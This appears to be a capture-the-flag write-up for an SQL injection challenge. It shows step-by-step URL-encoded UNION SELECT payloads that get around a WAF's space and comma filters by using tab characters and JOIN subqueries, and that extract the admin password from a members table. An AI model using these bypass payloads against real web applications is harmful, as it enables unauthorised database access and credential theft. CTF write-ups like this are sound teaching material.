



As you can see, when giving this payload:
```
?action=members&id=2-1
```
We get `id=1`, so it means there is a basic SQL injection here.
However, when trying to use this vulnerability for an exploit, we face fences of `WAF`, and we hate `WAF`.


I can see i can't use ` `, however i can use `\t`, which is `%09`.

We know the structure is:
```sql
CREATE TABLE IF NOT EXISTS `membres` (
   `id` int(1) NOT NULL AUTO_INCREMENT,
   `username` VARCHAR(5) NOT NULL,
   `pass` VARCHAR(20) NOT NULL,
   `email` VARCHAR( 50 ) NOT NULL,
   PRIMARY KEY (`id`)
 ) ENGINE=MyISAM  DEFAULT CHARSET=latin1 AUTO_INCREMENT=2 ;
```

In addition, the query that's being executed is:
```sql
SELECT * from membres where id={input}
```

So, what'll happen if we inject something like this:
```sql
5 UNION select 1,2,3,4
```

In this case, the results should be `1,2,3,4`, because there is no such user which its id is `5`.

However, the WAF blocks `,`... Of course, so we can try it with `JOIN`.

Here is an example of how it should look, we give this subquery:
```sql
UNION SELECT * FROM (
    (SELECT 1) as t1 JOIN 
    (SELECT 2) as t2 JOIN 
    (SELECT 3) as t3 JOIN 
    (SELECT 4) as t4
) LIMIT 1
```


Let's try it in our case, this will be the payload:
```
4 UNION SELECT * FROM ((SELECT 1) as t1 JOIN (SELECT 2) as t2 JOIN (SELECT 3) as t3 JOIN (SELECT 4) as t4 ) LIMIT 1
```
of course we need to replace all ` ` with `%09`
```
4%09UNION%09SELECT%09*%09FROM%09((SELECT%091)%09as%09t1%09JOIN%09(SELECT%092)%09as%09t2%09JOIN%09(SELECT%093)%09as%09t3%09JOIN%09(SELECT%094)%09as%09t4%09)%09LIMIT%091
```

And we got this:
```
ID : 1
Username : 2
Email : 4
```



Okay, now we just need to exfiltrate the password of the first user, which is `admin`.
```sql
UNION SELECT * FROM (
    (SELECT username FROM membres LIMIT 1) as t1 JOIN 
    (SELECT email FROM membres LIMIT 1) as t2 JOIN 
    (SELECT 3) as t3 JOIN 
    (SELECT pass FROM membres LIMIT 1) as t4
) LIMIT 1
```

Let's try it in our case, this will be the payload:
```
4 UNION SELECT * FROM ((SELECT username FROM membres LIMIT 1) as t1 JOIN (SELECT email FROM membres LIMIT 1) as t2 JOIN (SELECT 3) as t3 JOIN (SELECT pass FROM membres LIMIT 1) as t4 ) LIMIT 1
```
of course we need to replace all ` ` with `%09`
```
4%09UNION%09SELECT%09*%09FROM%09((SELECT%09username%09FROM%09membres%09LIMIT%091)%09as%09t1%09JOIN%09(SELECT%09email%09FROM%09membres%09LIMIT%091)%09as%09t2%09JOIN%09(SELECT%093)%09as%09t3%09JOIN%09(SELECT%09pass%09FROM%09membres%09LIMIT%091)%09as%09t4%09)%09LIMIT%091
```


GG! :)

**Flag:** **_`KLfgyTIJbdhursqli`_**